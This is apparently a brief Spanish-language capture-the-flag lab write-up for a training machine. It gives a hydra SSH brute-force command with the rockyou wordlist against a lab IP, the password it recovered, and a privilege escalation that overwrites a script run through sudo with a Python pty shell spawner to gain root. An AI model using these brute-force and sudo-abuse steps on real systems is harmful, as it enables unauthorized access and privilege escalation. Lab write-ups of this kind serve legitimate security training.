


# NMAP

# WEB

# Fuerza Bruta

    hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.146.26 -t4

# SSH

# User Flag

iloveyou1

cat user.txt

# Escalada de Privilegios

sudo -l

    rm -f bak.py

    echo 'import pty; pty.spawn("/bin/sh")' > /home/meliodas/bak.py

    sudo python /home/meliodas/bak.py

# Root Flag

